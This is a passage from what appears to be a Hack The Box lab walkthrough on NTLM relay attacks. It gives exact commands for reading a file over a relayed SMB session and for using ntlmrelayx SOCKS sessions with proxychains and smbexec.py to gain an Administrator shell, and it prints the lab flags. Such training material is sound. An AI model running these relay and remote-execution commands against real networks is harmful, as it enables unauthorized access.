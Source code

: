 ```shell-session
# get connections.txt
```

Subsequently, once students have downloaded the `connections.txt` using the `get` command, they will have to terminate the SMB connection by issuing the `exit` command. Once they have exited the session, students are going to read the contents of the `connections.txt` and obtain the flag.

Code: shell

```shell
exit
cat connections.txt
```

```shell-session
# exit
htb-student@ubuntu:~$ cat connections.txt 

You_C4n_Rel4Y_NoN_Admin_Account$
```

Answer: `You_C4n_Rel4Y_NoN_Admin_Account$`

## NTLMRelayx Use Cases

### Question 2

#### "Use impacket's SOCKS server to hold PETER's relayed connections and abuse them to gain remote command execution as Administrator on one of the relayed targets; submit the contents of the file 'C:\Users\Peter\flag.txt'."

Using the previously established SSH session and SOCKS proxying through `ntlmrelayx`, students will proceed to use `PETER`'s relayed authentication. They will use `proxychains` and `smbexec.py` to spawn a semi-interactive shell by creating services that execute commands sent by them on the `172.16.117.50` host, using the `-no-pass` option in `smbexec.py`. The relayed authentication will be used to access the resources on the mentioned target.

Code: shell

```shell
proxychains -q smbexec.py INLANEFREIGHT/PETER@172.16.117.50 -no-pass
type flag.txt
```

```shell-session
htb-student@ubuntu:~$ proxychains -q smbexec.py INLANEFREIGHT/PETER@172.16.117.50 -no-pass

Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute

C:\Windows\system32>type C:\Users\Peter\flag.txt

S0c4T_AnD_ProxyChains_R0cks
```
